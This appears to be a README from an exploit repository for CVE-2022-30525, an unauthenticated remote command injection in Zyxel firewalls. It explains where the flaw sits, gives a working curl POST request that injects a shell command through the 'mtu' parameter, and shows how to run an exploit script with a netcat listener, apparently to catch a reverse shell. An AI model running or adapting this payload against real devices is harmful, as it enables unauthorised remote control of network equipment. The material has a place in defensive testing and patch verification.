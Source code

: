 # CVE-2022-30525 (FIXED): Zyxel Firewall Unauthenticated Remote Command Injection

## CVE-2022-30525: Unauthenticated remote command injection(https://www.rapid7.com/blog/post/2022/05/12/cve-2022-30525-fixed-zyxel-firewall-unauthenticated-remote-command-injection/)
The affected models are vulnerable to unauthenticated and remote command injection via the administrative HTTP interface. Commands are executed as the nobody user. This vulnerability is exploited through the /ztp/cgi-bin/handler URI and is the result of passing unsanitized attacker input into the os.system method in lib_wan_settings.py. The vulnerable functionality is invoked in association with the setWanPortSt command. An attacker can inject arbitrary commands into the mtu or the data parameter. Belowis an example curl that will cause the firewall to execute ping 192.168.1.220:
```shell
curl -v --insecure -X POST -H "Content-Type: application/json" -d '{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":"; ping 192.168.1.220;","data":"hi"}' https://192.168.1.1/ztp/cgi-bin/handler
```


## Usages

```shell
./cve-2022-30525.sh target-ip reverse-ip port
nc -lvnp port
```
